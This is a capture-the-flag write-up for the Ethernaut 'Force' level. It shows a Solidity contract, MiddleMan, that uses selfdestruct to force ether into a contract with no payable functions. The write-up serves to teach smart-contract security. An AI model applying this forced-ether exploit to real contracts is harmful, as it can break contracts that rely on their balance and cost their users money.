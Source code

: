 # Level 7 - Force

### Objective

The objective of this level is as follows:

1. Make the balance of the contract greater than zero

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

### Solution

In this level, we cannot simply transfer ether into the contract since there are no functions or fallback methods. Thus, we must take advantage of the `selfdestruct` function in an intermediate contract `MiddleMan` which will allow us to send all of the funds from `MiddleMan` to `Force`:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract MiddleMan {

    function deposit() public payable returns(uint) {
        return address(this).balance;
    }

    function destroy() public {
        address payable addr = // insert instance address here;
        selfdestruct(addr);
    }

}
```

First, we deposit some number of ether into `MiddleMan` via `deposit()`. Next, we self-destruct `MiddleMan` via `destroy()` which transfers all of the funds we deposited in `MiddleMan` to `Force`.

Finally, verify that the level instance has a balance greater than zero:

```
await getBalance(contract.address)

```

Done!
